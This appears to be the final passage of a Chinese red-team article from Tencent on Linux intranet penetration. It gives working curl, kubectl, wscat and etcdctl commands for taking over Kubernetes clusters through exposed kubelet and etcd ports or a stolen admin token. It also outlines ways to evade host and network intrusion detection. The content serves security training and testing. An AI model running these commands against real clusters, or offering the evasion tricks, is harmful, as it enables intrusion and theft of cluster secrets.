  
因为挂载把宿主机根目录挂载到了容器中的/mnt 目录中，就再次回到了上述逃逸的攻击手段了，其他就不再赘述。

## kubernetes

kubernetes 简称 k8s，简单理解是拿来自动化部署容器、管理容器的框架。

### API Server 攻击

当我们获取到 admin token 时，可以操作 API Server 来控制集群。

```plain
curl -H "Authorization: Bearer $TOKEN" $APISERVER/api  --insecure
```

也可以把 admin token 放置在~/.kube/config 文件中，然后利用命令行工具进行后续操作：

1.  `kubectl get namespaces`
2.  `kebectl get pods -n {namespaces}`
3.  `kubectl exec -it -n {namespace} {podname} /bin/sh`

### kubelet 10250 端口攻击

10250 端口是 kubelet API 的 HTTPS 端口，该端口提供了 pod 和 node 的信息，如果该端口对外开放，攻击者可以利用公开 api 来获取敏感信息，甚至执行命令。

```plain
curl -k https://host:10250/pods
```

  
根据上述获取到的信息在容器中执行命令：

1.  `curl -Gks https://host:10250/exec/{namespace}/{podname}/{containername} \`
2.  `-d 'input=1' -d 'output=1' -d 'tty=1' \`
3.  `-d 'command=whoami'`

上述命令得到 websocket 地址，连接 websocket 得到命令结果：

```plain
wscat -c "https://host:10250/websocket" --no-check
```

当获取到 admin token 后，也可以利用该服务端口在 pod 中执行命令：

```ruby
curl -k -H "Authorization: Bearer $TOKEN" https://host:10250/run/{namespace}/{podname}/{containername} -XPOST -d 'cmd=whoami'
```

### etcd 2379 端口攻击

etcd 中存放着 k8s 集群数据，如果可以成功访问该服务端口，则可以获取集群中的敏感信息，包括 k8s secrets、admin token、AKID 等。

```plain
etcdctl --endpoints=https://host:2379 ls
```

带着 cert 访问 etcd：

```plain
etcdctl --endpoints=https://host:2379 --cacert=ca.crt --key=etcd.key --cert=etcd.crt endpoint health
```

# IDS

本章介绍的 IDS 包括 HIDS 和 NIDS。

## HIDS

HIDS 涉及到如何绕过服务器上的 agent。  
业务服务器上默认都部署了 agent，如何绕过这些 agent 也是一个很大的学问。这些 agent 常常会 hook execve 来获取和判断执行的命令是否恶意。  
这里有几个思路和大家一起讨论：

-   滞空 LD\_PRELOAD 来绕过用户态的 hook，busybox 同理
-   利用代码来执行命令
-   利用 ptrace 进行日志混淆
-   关闭或致盲 agent 通信

## NIDS

NIDS 涉及到如何绕过网络设备进行扫描。  
在内网渗透中，我们会使用 nmap 去做网络探测，而 nmap 自带的一些特征会导致被安全设备识别和拦截。因此我们需要对 nmap 做一些修改，比如更改 nselib/http.lua，把 nmap 字样删除：  
  
tcpip.cc 更改 windows 窗口大小：  
  
nselib/rdp.lua更改3389 cookie：  
  
也可以利用 ipv6 进行绕过 (附录 6)。  
也可以利用 curl 进行简单的探测，curl 能获取 banner 信息：  


# 工具化

当我们拿下跳板机/堡垒机此类服务器权限时，上面可用的命令少之又少，甚至连 whoami 都没有！  
因此我们需要编写一些适用的小工具来帮我们完成一些指定的工作，包括 curl、反弹 shell：  


# 总结

内网渗透博大精深，进入内网如何在不被发现的情况下快速获取目标权限也是重中之重，本系列的文章也只是抛砖引玉。腾讯蓝军也会持续和大家分享更多攻防知识，希望能够和大家共同成长，提高整体红蓝对抗水平。

文中涉及的技术信息，只限用于技术交流，切勿用于非法用途。欢迎探讨交流，行文仓促，不足之处，敬请不吝批评指正。

**腾讯蓝军**

腾讯蓝军（Tencent Force）由腾讯 TEG 安全平台部于 2006 年组建，十余年专注前沿安全攻防技术研究、实战演练、渗透测试、安全评估、培训赋能等，采用 APT 攻击者视角在真实网络环境开展实战演习，全方位检验安全防护策略、响应机制的充分性与有效性，最大程度发现业务系统的潜在安全风险，并推动优化提升，助力企业领先于攻击者，防患于未然。

【附录】  
附录 1 windows 内网渗透：[https://mp.weixin.qq.com/s/OGiDm3IHBP3\_g0AOIHGCKA](https://mp.weixin.qq.com/s/OGiDm3IHBP3_g0AOIHGCKA)  
附录 2 pspy: [https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)  
附录 3 bash: [https://Linux.die.net/man/1/bash](https://linux.die.net/man/1/bash)  
附录 4 setuid: [https://man7.org/linux/man-pages/man2/setuid.2.html](https://man7.org/linux/man-pages/man2/setuid.2.html)  
附录 5 创建特权容器：[https://github.com/neargle/cloud\_native\_security\_test\_case](https://github.com/neargle/cloud_native_security_test_case)  
附录 6 利用 ipv6 绕过 ids: [https://security.tencent.com/index.php/blog/msg/147](https://security.tencent.com/index.php/blog/msg/147)  
附录 7 curl: [https://github.com/SYM01/gosnippets/blob/main/curl/curl.go](https://github.com/SYM01/gosnippets/blob/main/curl/curl.go)
